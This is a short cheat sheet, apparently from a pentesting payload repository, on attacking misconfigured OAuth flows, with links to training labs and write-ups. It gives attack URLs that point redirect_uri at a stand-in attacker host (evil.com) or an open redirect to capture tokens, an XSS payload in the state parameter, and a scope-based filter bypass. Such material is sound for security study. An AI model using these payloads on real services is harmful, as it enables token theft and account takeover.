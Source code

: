 # OAuth Misconfiguration

## Summary

- [Labs](#labs)
- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)


## Labs

* [PortSwigger - Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [PortSwigger - Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [PortSwigger - OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [PortSwigger - Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [PortSwigger - Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```


## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```


## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.


## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.


## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.


## References

- [All your Paypal OAuth tokens belong to me - asanso - November 28, 2016](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html) 
- [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - asanso - April 8, 2014](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [How I hacked Github again - Egor Homakov - February 7, 2014](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka - September 16, 2014](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel - Jack Whitton - July 20, 2015](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)